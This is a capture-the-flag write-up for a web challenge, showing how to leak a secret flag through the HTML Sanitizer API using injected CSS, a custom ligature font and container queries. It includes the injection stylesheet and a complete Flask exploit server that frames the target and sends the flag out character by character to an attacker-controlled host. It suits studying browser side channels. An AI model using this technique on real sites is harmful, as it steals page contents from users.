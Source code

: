 # Sanitizer (Web)
> What does it truly mean to sanitize something? What is a sanitize? Is this challenge solvable?
> Admin bot code is provided, running Chromium at least 109.0

The challenge is to leak the contents of a page given content injection passed through the new [HTML Sanitizer API](https://developer.mozilla.org/en-US/docs/Web/API/HTML_Sanitizer_API).

```html
<!DOCTYPE html>
<html>
    <body>
        <div id="flag"></div>
        <div id="target"></div>
        <script>
            const flag = window.localStorage["flag"] || "irisctf{REDACTED_redacted_R3d4cT3d}";
            console.assert(flag.length == 35);
            document.getElementById("flag").innerText = flag;
            const inp = decodeURIComponent(location.search.substr(1));
            document.getElementById("target").setHTML(inp);
        </script>
    </body>
</html>
```

The Sanitizer API does **not** block injecting stylesheet elements, so you can use style injection techniques to leak the flag. There is no CSP that prevents you from using external stylesheets or connections.

The standard techniques for doing this is due to [Michał Bentkowski](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/), who showed that by creating a font that makes all characters besides the target ligature have a width of 0 one can make the target element have a large size _only_ if it contains a desired substring, and then use a side channel to trigger an URL load only in that case.

The admin bot also runs with a few extra arguments:
```js
const puppeter_args = {"args": [
    '--no-sandbox',
    `--window-size=1920,1080`,
    '--window-position=0,0',
    '--hide-scrollbars',
    '--disable-background-timer-throttling',
    '--disable-renderer-backgrounding'], headless: true};
```

`--hide-scrollbars` is implied by turning on headless mode, but it's actually provided again as a hint that the challenge cannot be solved using scrollbars, which is the technique every published style injection content leak I could uses as a side channel. So the other part of the challenge is coming up with some other way to trigger a content load exclusively when the CSS is matching.

I came up with a solution using the (also new) [CSS Container Queries](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_Container_Queries). The size query directly lets you only apply a style when the size of an element fits a restriction. The only gotcha is that it can't query its own size - because then you might have an infinite loop where a style change triggers a style change triggers a style change and so on.
```css
#flag { font-family: "hack{n}"; background-color: red }
@container (width < 50px) {
    span {
        background: url({base}/ack?n={n}&p={p});
    }       
}
body:has(#flag) {
    display: flex;
    width: 500px;
}
#target {
    container-type: size;
    display: block;
    width: 100%;
}
```

Note that you also may have to work around having a maximum width for glyphs in the font. The flag is decently long which means that the flag, when rendered with a default font (while the custom font is still loading) could end up being larger than a single glyph. I had to work around this by specifying a ligature for the `iris` part of the flag.

The challenge does not prevent framing so you do not have to use recursive CSS imports and the cookie is localStorage so you don't have to `window.open` the page, which would hopefully cut down on waiting for the bot to run your exploit and entering PoWs.

My solution script is at the bottom of the page, which leaks about 25 characters per run. You will need to get the `generate_font` code from this writeup of of `flag-sharer` of [redpwn CTF 2020](https://git.lain.faith/BLAHAJ/redpwn-flag-sharer), and add a `<glyph unicode="{first_known_part}" horiz-adv-x="80000" d="M1 0z"/>` glyph to the font.

```
irisctf{C0nt41n3r_Qu3r13s_4r3_N3at}
```

```py
import subprocess
import tempfile
import os
import base64
from flask import Flask, request, make_response
import threading
cv = threading.Condition()

app = Flask(__name__)
BF_CHARSET = list("abcdefghijklmnopqrstuvxyzABCDEFGIHJKLMNOPQRSTUVWXYZ0123456789_{}")
KNOWN = "iris" # put first part of chars as width padding
KNOWN_2 = "ctf{"

FONT_CTR = 0
def generate_font(_):
    assert False, "please get the generate_font function from its source"

def generate_fonts(prefix):
    css = []
    charmap = {}
    for c in BF_CHARSET:
        font, font_name = generate_font(prefix + c)
        css.append(font)
        chars[font_name] = prefix + c
    return css, chars

state = {"prefix": KNOWN_2, "ready": True, "fonts": [], "map": {}}

@app.route("/job")
def job():
    with cv:
        while state["ready"] == False:
            cv.wait()
        state["ready"] = False

    if state["prefix"][-1] == "}":
        print("==== DONE")
        print(KNOWN + state["prefix"])
        return {"done": 1}
    # Generate new job
    fonts, m = generate_fonts(state["prefix"])
    state["fonts"] = fonts
    state["map"] = m

    return {"p": len(state["prefix"]), "n": len(BF_CHARSET), "done": 0}

BASE_CSS = """{font}
#flag { font-family: "hack{n}"; background-color: red }
@container (width < 50px) {
    span {
        background: url({base}/ack?n={n}&p={p});
    }       
}
body:has(#flag) {
    display: flex;
    width: 500px;
}
#target {
    container-type: size;
    display: block;
    width: 100%;
}
"""
NGROK = input("base: ")

@app.route("/sanitizer.css")
def css():
    n = request.args.get("n")
    p = request.args.get("p")
    t = BASE_CSS.replace("{n}",str(FONT_CTR - len(BF_CHARSET) + int(n))).replace("{p}",p).replace("{base}",NGROK).replace("{font}", state["fonts"][int(n)])
    r = make_response(t)
    r.headers["Content-Type"] = "text/css"
    return r

@app.route("/ack")
def ack():
    n = request.args.get("n")
    p = request.args.get("p")
    if int(p) != len(state["prefix"]):
        return ""
    
    state["prefix"] = state["map"]["hack" + n]
    print("Prefix", KNOWN + state["prefix"])
    state["ready"] = True
    with cv:
        cv.notify()
    return "OK"

@app.route("/index.html")
def index():
    return """
<!DOCTYPE html><html><body><div id="c"> </div><script>
base = "{REMOTE}";
const c = document.getElementById("c");
let els = [];
async function go() {
    while(1) {
        const job = await fetch("job").then(d => d.json());
        if(job["done"]) return;
        c.innerHTML = "";
        for(let i = 0; i < job["n"]; i++) {
            let el = document.createElement("iframe");
            el.style = "max-width: 20px; max-height: 2px;";
            el.src = base + `<link%20rel="stylesheet"%20href="{NGROK}/sanitizer.css?n=${i}&p=${job['p']}"%20/><span>a</span>`;
            c.appendChild(el);
        }
    }
}
go();
</script></body></html>
""".replace("{NGROK}", NGROK).replace("{REMOTE}", "https://sanitizer-web.chal.irisc.tf/?")

@app.after_request
def acao(r):
    r.headers["Access-Control-Allow-Origin"] = "*"
    return r

app.run(port=12345)
```

